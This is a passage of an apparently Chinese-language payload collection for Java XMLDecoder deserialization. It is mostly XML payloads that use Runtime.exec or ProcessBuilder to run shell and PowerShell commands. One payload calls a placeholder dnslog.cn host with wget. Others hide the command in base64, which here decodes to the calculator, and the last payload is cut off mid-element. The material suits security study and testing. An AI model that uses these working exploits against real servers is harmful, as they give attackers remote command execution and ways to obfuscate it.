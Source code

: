 ```
```  
  
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_202" class="java.beans.XMLDecoder">
  <object class="java.lang.Runtime" method="getRuntime">
    <void method="exec">
      <array class="java.lang.String" length="1">
        <void index="0">
          <string>wget http://xxxxx.dnslog.cn</string>
        </void>
      </array>
    </void>
  </object>
</java>
```  
  
  
1  
  
**0x03 Base64编码**  
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0" class="java.beans.XMLDecoder">
  <object class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
      <!-- 调用 base64 解码命令 -->
      <void index="0"><string>/bin/sh</string></void>
      <void index="1"><string>-c</string></void>
      <void index="2"><string>echo Y2FsYwo= | base64 -d | cmd</string></void>
    </array>
    <void method="start"></void>
  </object>
</java>
```  
  
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0" class="java.beans.XMLDecoder">
<object class="java.lang.ProcessBuilder">
 <array class="java.lang.String" length="3">
   <void index="0"><string>powershell</string></void>
   <void index="1"><string>-Command</string></void>
   <void index="2"><string>"Start-Process [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('Y2FsYwo='))"</string></void>
 </array>
 <void method="start"></void>
</object>
</java>
```  
  
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0" class="java.beans.XMLDecoder">
  <object class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
      <!-- 调用 PowerShell -->
      <void index="0">
        <string>powershell</string>
      </void>
      <!-- 使用 -Command 参数执行命令 -->
      <void index="1">
        <string>-Command</string>
      </void>
      <!-- 解码 Base64 并启动 calc -->
      <void index="2">
```